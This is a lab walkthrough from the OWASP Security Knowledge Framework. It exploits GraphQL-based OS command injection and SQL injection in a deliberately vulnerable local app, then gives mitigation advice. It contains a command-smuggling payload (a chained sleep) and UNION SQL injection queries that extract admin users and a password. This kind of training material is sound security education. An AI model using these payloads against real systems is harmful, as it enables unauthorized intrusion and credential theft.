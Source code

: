 # GraphQL Injections

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-injections
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-injections
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This lab shows that GraphQL is not a silver bullet to any of the injection vulnerabilities.

We will look at two of the most common ones:

- OS Command Injection
- Sql Injection

We still see the blog that we should be familiar by now.

Let's login with: admin/admin

![](../../.gitbook/assets/python/Graphql-Injections/1.png)

![](../../.gitbook/assets/python/Graphql-Injections/2.png)

If you run your DirBuster against it or just manually try to guess few of the rountes you will notice the new `/admin` section of the web app.

```
http://0.0.0.0:5000/admin
```

![](../../.gitbook/assets/python/Graphql-Injections/3.png)

There we have two functionalities:

- Check SQL Server Status
- Query User detiails

Both of them look suspicious, so play around and understand what they actually do.

Hint: you can also use what you have learned from the Introspection lab to understand the queries and mutations in the admin part ;)

## Exploitation

Your gut feeling is right and the _Check SQL Server Status_ should be vulnerable to _OS Command Injection_ and _Query User detiails_ should be vulnerable to _SQL injection_ attacks.

Let's get it on!

### OS Command Injection

The _Check SQL Server Status_ form has one input field where a server and a port are expected.

Go about and try check if some of the well known SQL Server ports are open on the server.

Probablly your first try was MySQL 3306 - 127.0.0.1:3306. Play around with few other ports and IPs and observe the _Status codes_ we receive as results.

![](../../.gitbook/assets/python/Graphql-Injections/4.png)

Now go ahead and try to execute some other system commands, append, pipe, ...

Apparently our input is being passed to a system command which gets executed and we get response code of it. By looking in the code we can see it is passed to a `os.system()` call.

This makes it a bit harder as we don't see the actual output of the command but we don't need that... enter _**Blind OS Command Injection**_

How about we try to a valid command that time effective and we can observe that... kind of an oracle, a Time Oracle.

Let's try: `127.0.0.1:3306; sleep 5`

![](../../.gitbook/assets/python/Graphql-Injections/5.png)

![](../../.gitbook/assets/python/Graphql-Injections/6.png)

As you have observed, the applciation took additional extra 5 seconds to respond, meaning our `sleep` command got executed. w00t, w00t!

Now, it' up to you to come up with scenario how to further abuse this.

### SQL Injection

Staying on the same `/admin` we also see _Query User detiails_ functionality which allowes an Administrator to get information about users by providing `username` values.

Go aronud find locate the GraphQL query that executes this transaction.

Now try to fetch some information for valid or invalid users. How about trying some SQL Injection payloads? :)

```
Example:
' UNION SELECT uuid, username FROM users --")
```

![](../../.gitbook/assets/python/Graphql-Injections/7.png)

By now we are aboslutly sure that this is an SQL Injection point and it is pretty that we are dealing with UNION style SQL Injection. Next up, let's try to find the other blog admins:

```
{getUser(username:"' UNION SELECT uuid, username, null, null FROM users WHERE isadmin = true --) {
  id
  username
}}
```

![](../../.gitbook/assets/python/Graphql-Injections/8.png)

Lets try to get the password of some user:

```
{getUser(username:"' UNION SELECT uuid, username, password, null FROM users WHERE username = 'johndoe'  --) {
  id
  username
}}
```

![](../../.gitbook/assets/python/Graphql-Injections/9.png)

We face few hurdles here:

- The query only returns one row (the first row)
- We cannot see the `password` value as our GraphQL `UserObject` model excludes the `password` column/field

  ```
  class UserObject(SQLAlchemyObjectType):
   class Meta:
       model = User
       exclude_fields = ('password') #this hides the password in the query for the Users
       filter_fields = {
            'username': ['exact', 'icontains', 'istartswith']
        }
       interfaces = (graphene.relay.Node, )
  ```

This means we need to get the password out from the UNION SELECT in another variable that is passed back.

The laziest approach, if our target is to get the password, is to return in all fields:

```
{getUser(username:"' UNION SELECT password, password, password, password FROM users WHERE username = 'johndoe'  --") {
  id
  username

}}
```
![](../../.gitbook/assets/python/Graphql-Injections/10.png)

w00t w00t!

What else can you!?

## Solution

### OS Command Injection

By know you fully understand that GraphQL does not handle input validation or santization for you. It actually has nothing to do with it. So, fixing the code in this lab does not differ to any of your previous practices on fixing code for OS Command Line injection.

### SQL Injection

SQL Injections have been present and known as vulnerability for such a long time which means that the mitigations are known, documented and well explained. Mitigating against SQL Injections when it comes to GraphQL powered applications are the same as for any other technology. In this particular project we use SQLAlchemy as ORM and graphane_sqlalchemy implemetation which is one common use case. However, as can be seen in our example mistakes can be made if we concatinate unsanitized, user provided string input to our SQLAlchemy queries.

The solution?

- Sanitize the input
- Use parameterized queries
- Use SQLAlchemy as described in documentation

## Additional resources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html" %}
